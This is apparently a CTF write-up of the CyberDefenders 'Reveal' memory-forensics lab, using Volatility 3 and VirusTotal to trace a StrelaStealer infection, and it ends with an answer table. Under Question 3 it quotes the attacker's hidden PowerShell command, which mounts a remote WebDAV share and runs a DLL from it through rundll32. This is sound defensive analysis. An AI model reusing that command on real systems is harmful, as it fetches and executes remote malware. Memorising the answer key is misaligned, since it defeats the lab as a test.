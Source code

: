 # Reveal Lab

### Link: https://cyberdefenders.org/blueteam-ctf-challenges/reveal/

### Scenario

You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.

### Tool

- Volatility

- Virustotal

### Solution

#### Question 1: Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

Volatility 3 has many plugins to manually or automatically analyze this data. `malfind` help us to find suspicious processes

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.malfind
```

![image](./assets/1.png)

We see that, there is `powershell.exe` process. To confirm whether it is malicious process, I will check `cmdline` to know what it does.

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.cmdline --pid 3692
```

![image](./assets/2.png)

Well, we confirm that there is malicious process

#### Question 2: What is the parent PID of the malicious process?

I will use `pstree` plugin to check it

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.pstree
```

![image](./assets/3.png)

#### Question 3: What is the file name that the malware uses to execute the second-stage payload?

First of all, we have the powershell command of that process:

```bash
powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```

I see that:

- `powershell.exe -windowstyle hidden`: Run Powershell with hidden window -> maybe avoid being detected by users
- `net use \\45.9.74.32@8888\davwwwroot\`: Maps a remote shared directory located on `45.9.74.32`. Maybe attacker will load or transfer malicious payload from this shared directory
- `rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`: run `rundll32.exe` (often used to load/run DLL file). In this command, attacker will load and run the `3435.dll` from shared directory. 

#### Question 4: What is the name of the shared directory being accessed on the remote server?

As explained in question 3

#### Question 5: What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?

In this attack, attacker use `rundll32.exe` to execute malicious payloads.

![image](./assets/4.png)

#### Question 6: Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?

I will use `getsids` to get the answer

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.getsids --pid 3692
```

![image](./assets/5.png)

#### Question 7: What is the name of the malware family?

I will search the IP `45.9.74.32` on Virustotal to find other malicious file which related to this IP, and I will check the family name of it.

![image](./assets/6.png)

![image](./assets/7.png)

There are many DLL files related this IP, so I checked it

![image](./assets/8.png)

OR, in the first time we search Virustotal, we have found it bruh

![image](./assets/9.png)


### Final Answer

| Question | Answer |
|---|----|
| Question 1 | `powershell.exe` | 
| Question 2 | `4120` | 
| Question 3 | `3435.dll` |
| Question 4 | `davwwwroot` |
| Question 5 | `T1218.011`|
| Question 6 | `Elon` |
| Question 7 | `strelastealer` |